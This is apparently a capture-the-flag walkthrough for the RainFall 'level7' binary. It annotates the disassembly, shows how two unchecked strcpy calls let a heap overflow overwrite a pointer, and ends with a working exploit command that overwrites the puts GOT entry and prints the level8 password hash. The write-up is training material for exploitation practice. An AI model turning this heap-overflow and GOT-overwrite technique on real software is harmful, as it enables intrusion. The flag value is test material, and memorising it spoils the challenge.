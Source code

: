 
#### notes
```
0x8049928  : <puts@plt> jump address
0x080484f4 : m function address
```

#### 0x0804847c: main() : disassembly
```
esp+0x18 = esp+24
esp+0x1c = esp+28
esp+0xc = esp+12

```
_`<0> → <+6> : prepare stack frame for n function with size 32`_
```c
0x08048521 <+0>:	push   ebp
0x08048522 <+1>:	mov    ebp,esp
0x08048524 <+3>:	and    esp,0xfffffff0
0x08048527 <+6>:	sub    esp,0x20
```
_`<+9> → <+29> : allocate size of 8 with malloc into esp+28 variable lets name it mOne, set the first case to 0  (DWORD PTR [eax] <=> mOne[0]) `_
```c
0x0804852a <+9>:	mov    DWORD PTR [esp],0x8 // *esp = 8
0x08048531 <+16>:	call   0x80483f0 <malloc@plt> // malloc(8)
0x08048536 <+21>:	mov    DWORD PTR [esp+28],eax // *esp+28 = malloc(8)
0x0804853a <+25>:	mov    eax,DWORD PTR [esp+28] // eax = *malloc(8)
0x0804853e <+29>:	mov    DWORD PTR [eax],0x1 // *eax = *eax + 1
// mOne = malloc(8)
// mOne[0] = 1
// esp+28 = mOne
```
_`<+35> → <+53> :  allocate size of 8 with malloc into the the second case of mOne variable (DWORD PTR [eax+4] <=> mOne[1])`_
```c
0x08048544 <+35>:	mov    DWORD PTR [esp],8
0x0804854b <+42>:	call   0x80483f0 <malloc@plt> 
0x08048550 <+47>:	mov    edx,eax // edx = malloc(8)
0x08048552 <+49>:	mov    eax,DWORD PTR [esp+28] edx = mOne
0x08048556 <+53>:	mov    DWORD PTR [eax+4],edx // mOne[1] = edx
// mOne[1] =  malloc(8)
```
_`<+56> → <+68> : allocate size of 8 with malloc into esp+24 variable lets name it mTwo`_
```c
0x08048559 <+56>:	mov    DWORD PTR [esp],8
0x08048560 <+63>:	call   0x80483f0 <malloc@plt> // malloc(8)
0x08048565 <+68>:	mov    DWORD PTR [esp+24],eax // esp+24 = &eax
// mTwo = malloc(8)
// esp+24 = mTwo
```
_`<+72> → <+100> : set the index 0 at mTwo to 2 and set the address return of malloc(8) to inde 1 of mTwo`_
```c
0x08048569 <+72>:	mov    eax,DWORD PTR [esp+24] // eax = *esp+24 
0x0804856d <+76>:	mov    DWORD PTR [eax],0x2 // *eax = 2
0x08048573 <+82>:	mov    DWORD PTR [esp],8
0x0804857a <+89>:	call   0x80483f0 <malloc@plt>
0x0804857f <+94>:	mov    edx,eax // edx = malloc(8)
0x08048581 <+96>:	mov    eax,DWORD PTR [esp+24] // eax = mTwo0
0x08048585 <+100>:	mov    DWORD PTR [eax+4],edx // mTwo[1] = mFour
// mTwo[0] = 2
// mTwo[1] = malloc(8)
```
_`<+103> → <+111> : setup the first argument for strcpy by taking its pointer , steps : `_
_`* eax= argv[1] set address of argv[1] to eax`_
_`* eax= *argv[1] set the value of argv[1] to eax`_
_`* edx = eax set argv[1] to edx`_
_`<+113> → <+127> : setup params for stcpy in the stack (esp, esp+4)`_
```c
0x08048588 <+103>:	mov    eax,DWORD PTR [ebp+12] // eax = argv
0x0804858b <+106>:	add    eax,4  
0x0804858e <+109>:	mov    eax,DWORD PTR [eax] // eax = argv + 4 = argv[1]
0x08048590 <+111>:	mov    edx,eax // edx = *argv[1]
0x08048592 <+113>:	mov    eax,DWORD PTR [esp+28]
0x08048596 <+117>:	mov    eax,DWORD PTR [eax+4]
0x08048599 <+120>:	mov    DWORD PTR [esp+0x4],edx
0x0804859d <+124>:	mov    DWORD PTR [esp],eax
0x080485a0 <+127>:	call   0x80483e0 <strcpy@plt>
// strcpy(mOne[1], argv[1])
```
_`<+> → <+> : same as before but this time to copy argv[2] into mTwo[1]`_
```c
0x080485a5 <+132>:	mov    eax,DWORD PTR [ebp+12]
0x080485a8 <+135>:	add    eax,8
0x080485ab <+138>:	mov    eax,DWORD PTR [eax]
0x080485ad <+140>:	mov    edx,eax
0x080485af <+142>:	mov    eax,DWORD PTR [esp+24]
0x080485b3 <+146>:	mov    eax,DWORD PTR [eax+4]
0x080485b6 <+149>:	mov    DWORD PTR [esp+0x4],edx
0x080485ba <+153>:	mov    DWORD PTR [esp],eax
0x080485bd <+156>:	call   0x80483e0 <strcpy@plt>
// strcpy(mTwo[1], argv[2])
```
_`<+161> → <+178> : call fopen to reac the .pass file with read mode, which contains the flag to level8`_
```c
0x080485c2 <+161>:	mov    edx,0x80486e9 // "r"
0x080485c7 <+166>:	mov    eax,0x80486eb // "/home/user/level8/.pass"
0x080485cc <+171>:	mov    DWORD PTR [esp+0x4],edx
0x080485d0 <+175>:	mov    DWORD PTR [esp],eax
0x080485d3 <+178>:	call   0x8048430 <fopen@plt> // password = fopen("/home/user/level8/.pass", "r")
```
_`<+183> → <+202> : setup the arguments for fgets in the stack `_
_`- esp     : variable c`_
_`- esp + 4 : 68`_
_`- esp + 8 : password`_
_`- fgets(esp, esp+4, esp+8)`_
_`- fgets(c, 68, password)`_
```c
0x080485d8 <+183>:	mov    DWORD PTR [esp+0x8],eax // password
0x080485dc <+187>:	mov    DWORD PTR [esp+0x4],0x44 // 68
0x080485e4 <+195>:	mov    DWORD PTR [esp],0x8049960 // variable c
0x080485eb <+202>:	call   0x80483c0 <fgets@plt> // fgets(c, 68, password)
```
_`<+207> → <+219> : print ~~ in the console`_
```c
0x080485f0 <+207>:	mov    DWORD PTR [esp],0x8048703 // "~~"
0x080485f7 <+214>:	call   0x8048400 <puts@plt> // puts("~~")
0x080485fc <+219>:	mov    eax,0x0
```
_`<+224> → <+225> : exit the programm`_
```c
0x08048601 <+224>:	leave
0x08048602 <+225>:	ret
```
#### stack illustration
```
    high addresses
+------------------------+   <= ebp + 14
: av[2]<- *(ebp+12) + 8  :
: av[1]<- *(ebp+12) + 4  :
: av[0]<- *(ebp+12) + 0  :
+------------------------+   <= ebp + 12
:        argc            :
+------------------------+   <= ebp + 8
:        eip             :
+------------------------+   <= ebp+4
:        ebp             :
+------------------------+   <= esp + 32  <------+
:    stack alignement    :                       |
+------------------------+                       | 
:  malloc(8) (mOne 1st)  :                       |
:     mOne[0] : 1        :                       |
:     mOne[1] : malloc(8):                       |
+------------------------+   <= esp + 28         |
:  malloc(8) (mTwo 3dt)  :                       |
:     mTwo[0] : 2        :                       |
:     mTwo[1] : malloc(8):                       |
+------------------------+   <= esp + 24         |  32 bytes
           .                                     |
          ...                                    |
         .....                                   |
          ...                                    |
           .                                     |
+------------------------+   <= esp + 4          |
:                        :                       |
+------------------------+   <= esp      <-------+
    low addresses
``` 
---
#### Solution :
---
by reading the assembly we get the following resume
- the program takes two params , av1 && av2
- decalred two variables (m1, m2) with size of 8 and allocating anther size of 8 to the index 1 of each
- copy av1 to m1[1] using strcpy
- copy av2 to m2[1] using strcpy
- strcpy copy whatever in source to destination without checking for size so it vulenrable to buffer overflow

lets execute the programm using ltrace to watch what happening :
```
level7@RainFall:~$ ltrace ./level7 AAAAAAAAAAAAAAAAAAAA BBBBBBBBBBBBBBBBBBBB
__libc_start_main(0x8048521, 3, 0xbffff794, 0x8048610, 0x8048680 <unfinished ...>
malloc(8)                                                                 = 0x0804a008
malloc(8)                                                                 = 0x0804a018
malloc(8)                                                                 = 0x0804a028
malloc(8)                                                                 = 0x0804a038
strcpy(0x0804a018, "AAAAAAAAAAAAAAAAAAAA")                                = 0x0804a018
strcpy(0x0804a038, "BBBBBBBBBBBBBBBBBBBB")                                = 0x0804a038
fopen("/home/user/level8/.pass", "r"*** glibc detected *** ./level7: free(): invalid next size (normal): 0x0804a048 ***
```
we can that the second strcpy is 32 bytes ahead of the first one
lets try to fill the first arguments with larger value to see at which length we override the second address in the hype of the strcpy 2
```
level7@RainFall:~$ ltrace ./level7 $(python -c 'print "A" * 21')  ABCD
__libc_start_main(0x8048521, 3, 0xbffff7a4, 0x8048610, 0x8048680 <unfinished ...>
malloc(8)                                                                 = 0x0804a008
malloc(8)                                                                 = 0x0804a018
malloc(8)                                                                 = 0x0804a028
malloc(8)                                                                 = 0x0804a038
strcpy(0x0804a018, "AAAAAAAAAAAAAAAAAAAAA")                               = 0x0804a018
strcpy(0x08040041, "ABCD" <unfinished ...>
--- SIGSEGV (Segmentation fault) ---
+++ killed by SIGSEGV +++
level7@RainFall:~$
```
at the length 21 we see that the address of av2[1] got changed in the last 2 bits

__the exploit :__
1- overide the address 0x8049928 (puts jump address) with the m function address that print the variable c
final exploit will look like that
```
strcpy(0x0804a018, "padding") 
strcpy("JUMP ADDRESS", "m() address")
```

so the exploit payload is 
```
--- SIGSEGV (Segmentation fault) ---
+++ killed by SIGSEGV +++
level7@RainFall:~$ clear
level7@RainFall:~$ ./level7 $(python -c 'print "A" * 20 + "\x28\x99\x04\x08"') $(python -c 'print "\xf4\x84\x04\x08"')
5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9
 - 1663318810
level7@RainFall:~$
```
